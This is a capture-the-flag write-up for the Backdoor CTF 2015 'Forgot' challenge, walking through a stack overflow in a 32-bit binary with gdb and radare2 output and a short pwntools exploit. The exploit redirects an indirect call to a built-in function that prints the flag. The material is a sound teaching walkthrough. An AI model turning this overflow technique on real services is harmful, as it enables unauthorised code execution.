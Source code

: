 ```yaml
---
layout: post
title: "Backdoor CTF 2015 Forgot"
date: 2015-04-02 14:19:08 -0400
author: [superkojiman,barrebas]
comments: true
categories: [backdoor]
---
```


### Solved by superkojiman and barrebas

Barrebas and I started working on this separately and ended up with a solution almost simultaneously. Forgot is a 32-bit ELF binary that asks for a name, and an email address to validate. We quickly found out that we could crash the binary by sending a large string for either the name or the email address:

```
# python -c 'print "A"*100' | ./forgot 
What is your name?
> 
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

            Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> Segmentation fault (core dumped)
```

I loaded the binary up in gdb and fed it a file with 100 "A"s:

```
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x41414141 ('AAAA')
EBX: 0x45 ('E')
ECX: 0x0 
EDX: 0x5 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffea8078 --> 0x0 
ESP: 0xffea7fec --> 0x8048a67 (mov    eax,ds:0x804b060)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffea7fec --> 0x8048a67 (mov    eax,ds:0x804b060)
0004| 0xffea7ff0 --> 0xffea8000 ('A' <repeats 69 times>)
0008| 0xffea7ff4 --> 0xffea8000 ('A' <repeats 69 times>)
0012| 0xffea7ff8 --> 0xf7738c20 --> 0xfbad2088 
0016| 0xffea7ffc --> 0x0 
0020| 0xffea8000 ('A' <repeats 69 times>)
0024| 0xffea8004 ('A' <repeats 65 times>)
0028| 0xffea8008 ('A' <repeats 61 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```

We can control EIP. Checking the stack trace, we see that the last function called was 0x08048a67

```
gdb-peda$ bt
#0  0x41414141 in ?? ()
#1  0x08048a67 in ?? ()
#2  0xf75caa63 in __libc_start_main () from /lib32/libc.so.6
#3  0x08048501 in ?? ()
```

Let's peek at what's around that area:

```
gdb-peda$ x/10i 0x08048a67-16
   0x8048a57:   inc    DWORD PTR [ebx+0x178246c]
   0x8048a5d:   mov    eax,DWORD PTR [esp+0x78]
   0x8048a61:   mov    eax,DWORD PTR [esp+eax*4+0x30]
   0x8048a65:   call   eax
   0x8048a67:   mov    eax,ds:0x804b060
   0x8048a6c:   mov    DWORD PTR [esp],eax
   0x8048a6f:   call   0x8048450 <fflush@plt>
   0x8048a74:   mov    ebx,DWORD PTR [ebp-0x4]
   0x8048a77:   leave  
   0x8048a78:   ret 
```

The call eax instruction looks promising. It's likely that we're overwriting eax with 0x41414141 which causes it to crash. This binary has NX enabled so we can't execute shellcode on the stack. Much like the Echo challenge, I assumed there was probably some function we could jump to. 

```
[0x080484e0]> afl
0x08048440     16   0  imp.printf
0x08048450     16   0  imp.fflush
0x08048460     16   0  imp.fgets
0x08048470     16   0  imp.puts
0x08048480     16   0  imp.system
0x08048490     16   0  imp.__gmon_start__
0x080484a0     16   0  imp.strlen
0x080484b0     16   0  imp.__libc_start_main
0x080484c0     16   0  imp.snprintf
0x080484d0     16   0  imp.__isoc99_scanf
0x080487aa    719   6  main
```

Looks like there's a call to system() happening somewhere. Poking around in radare2 we find it here:

```
[0x080484e0]> pd 50@0x080486cc
            0x080486cc    55           push ebp
            0x080486cd    89e5         mov ebp, esp
            0x080486cf    83ec58       sub esp, 0x58
            0x080486d2    c744240c9f8. mov dword [esp + 0xc], str.._flag  ; [0x8048d9f:4]=0x6c662f2e  ; "./flag" @ 0x8048d9f
            0x080486da    c7442408a68. mov dword [esp + 8], str.cat__s  ; [0x8048da6:4]=0x20746163  ; "cat %s" @ 0x8048da6
            0x080486e2    c7442404320. mov dword [esp + 4], 0x32        ; [0x32:4]=0x6001b  ; '2'
            0x080486ea    8d45c6       lea eax, [ebp - 0x3a]
            0x080486ed    890424       mov dword [esp], eax
            0x080486f0    e8cbfdffff   call sym.imp.snprintf
               sym.imp.snprintf()
            0x080486f5    8d45c6       lea eax, [ebp - 0x3a]
            0x080486f8    890424       mov dword [esp], eax
            0x080486fb    e880fdffff   call sym.imp.system
               sym.imp.system()
            0x08048700    c9           leave
            0x08048701    c3           ret
```

Now it looks like this calls system("cat ./flag") and prints it out to stderr. So all we have to do is setup our buffer such that EAX will contain 0x080486cc so that call eax will lead to giving us the flag.

The exploit:

```python
#!/usr/bin/env python
from pwn import *

r = remote("hack.bckdr.in", 8009)
print r.recv()

buf = ""
buf += "A"*63
buf += p32(0x080486cc)

r.send(buf + "\n")
print r.recvall()
```

Getting the flag: 

```text
# python forgot.py 
[+] Opening connection to hack.bckdr.in on port 8009: Done
What is your name?
> 
[+] Recieving all data: Done (365B)
[*] Closed connection to hack.bckdr.in port 8009

Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

            Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> flag_goes_here_flag_goes_here_flag_goes_here_flag_goes_here_flag
```
